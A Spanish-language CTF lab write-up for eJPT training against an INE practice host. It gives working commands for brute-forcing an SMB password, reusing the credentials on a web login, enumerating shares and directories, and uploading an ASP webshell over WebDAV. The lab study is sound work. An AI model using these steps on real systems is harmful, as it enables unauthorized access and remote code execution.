

repository: scarlgyx/scarlgyx-cybersecurity · page: certs/ejpt/host-network-pentest/01-system-host-based-attacks-ctf-1/index.html · generator: mkdocs

# System-Host Based Attacks CTF 1

- Wordlists
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/webshells/asp/webshell.asp

- FLAG1

Nos dan como pista que la contraseña de *bob* es débil
```bash
crackmapexec smb target1.ine.local -u bob -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

![](../../../assets/img/Pasted_image_20260909203738.png)

bob:password_123321

Ahora tenemos credenciales para conectarnos pero al intentar acceder nos dice que no hay recursos compartidos disponibles para conectarnos
```bash
smbclient -L //target1.ine.local -U bob
```

![](../../../assets/img/Pasted_image_20260910112930.png)

Intentaremos descubrir recursos compartidos expuestos, ahora no nos ofrecen ningún diccionario del tipo *shares.txt* por lo que usaremos smbmap
```bash
smbmap -r -u bob -p password_123321 -H target1.ine.local
```

![](../../../assets/img/Pasted_image_20260910113220.png)

No parece haber nada intersante

Vamos a intentar reutilizar las credenciales en otro sitio
- Por ejemplo en la web nos pedía un login nada más acceder

![](../../../assets/img/Pasted_image_20260910113435.png)

Accedemos a un Windows IIS

![](../../../assets/img/Pasted_image_20260910113519.png)

Haremos un reconocimiento del servidor
```bash
dirsearch http://target1.ine.local -u bob:password_123321
```

![](../../../assets/img/Pasted_image_20260910115053.png)

Vemos un */webdav/*

![](../../../assets/img/Pasted_image_20260910115210.png)

- FLAG2

Vamos a intentar explotar el webdav
```bash
davtest -url http://target1.ine.local -auth bob:password_123321
```

![](../../../assets/img/Pasted_image_20260910120730.png)

Permite la subida de archivos, podríamos tratar de subir una shell.aspx

Subimos el archivo con curl
```bash
curl -u 'bob:password_123321' -T /usr/share/webshells/asp/webshell.asp http://target1.ine.local/webdav/webshell.asp
```

![](../../../assets/img/Pasted_image_20260910122438.png)

Alternativamente podríamos haber usado *cadaver* para conectarnos al **webdav** y hacer un PUT
```bash
cadaver http://target1.ine.local/webdav
```

![](../../../assets/img/Pasted_image_20260910122644.png)
